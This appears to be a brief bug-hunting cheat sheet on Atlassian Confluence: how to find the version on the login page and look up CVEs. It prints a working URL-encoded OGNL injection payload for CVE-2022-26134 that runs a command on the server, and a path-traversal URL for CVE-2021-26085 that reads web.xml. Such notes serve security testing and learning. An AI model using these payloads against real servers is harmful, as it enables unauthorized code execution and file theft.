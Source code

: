 ```yaml
---
title: Confluence
tags: [bug hunting, confluence]
categories: [bug hunting, confluence]
date: 2022-06-08 11:33:00
---
```




# Confluence Common Bugs

## Introduction
What would you do if you came across a website that uses Confluence?

## How to Detect
Try to HTTP request to `https://example.com/login.action?os_destination=%2F` and there is a form login

1. Find the related CVE by checking Confluence version
* How to find the Confluence version

Try to request to `https://example.com/login.action?os_destination=%2F` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the Confluence version. If you found outdated Confluence version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-6258/Atlassian-Confluence.html)

Some example CVE:

- CVE-2022-26134 (Remote Code Execution)
```
https://example.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

- CVE-2021-26085 (Arbitrary File Read)
```
https://example.com/s/test/_/;/WEB-INF/web.xml
```
